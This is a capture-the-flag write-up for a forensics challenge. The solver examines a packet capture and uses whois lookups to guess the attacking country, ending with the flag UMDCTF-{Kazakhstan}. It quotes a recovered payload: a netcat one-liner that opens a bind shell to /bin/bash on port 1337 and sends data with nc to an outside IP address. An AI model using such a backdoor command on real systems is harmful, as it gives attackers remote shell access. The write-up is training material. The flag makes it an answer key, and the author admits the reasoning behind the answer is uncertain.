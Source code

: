 # Nation State Musical
**Category:** Forensics

**Points:** ???

**Description:**
> **Author:** t0pc4r
>
> **Hint:** "Oh no! It looks like a nation state is trying to attack one
>        of UMDs routers! Using a pcap generated from the attack, try
> 	     to determine which nation state the attack is coming from.
>
>	Beware, you only have five guesses.
>
> The flag will be in the format UMDCTF-{Country}"
>
> **Note:** "Do not attempt to communicate with or contact any of
       the IP addresses mentioned in the challenge. The challenge
	   can and should be solved statically."
>
> **Given:** Pcap file "attack.pcap"

## Writeup
Looking at the pcap file, we can see there are A LOT of TCP packets
from ONE source to ONE destination. I ran a whois on the source IP
address, which showed that the IP was from Ukraine, but that's too easy.

I looked at the pcap file a little more to realize that one of the TCP
packets had data associated to it. I did a quick hex to ascii and the
output was:

```
ÿþ';
rm -f backd00r
mkfifo backd00r
nc -lk 1337 0<backd00r | /bin/bash 1>backd00
echo '<5= :V@5<V=' | nc 37.46.96.0 1337
```

I can see that another IP addressed is being used, so I ran another whois
on this other IP. The IP was from Kazakhstan, so I tried the flag,
UMDCTF-{Kazakhstan} and it worked.

There is probably an explanation to why this IP address is the actual source
of the attacks, but I'm not too sure what it is.

## Flag
UMDCTF-{Kazakhstan}
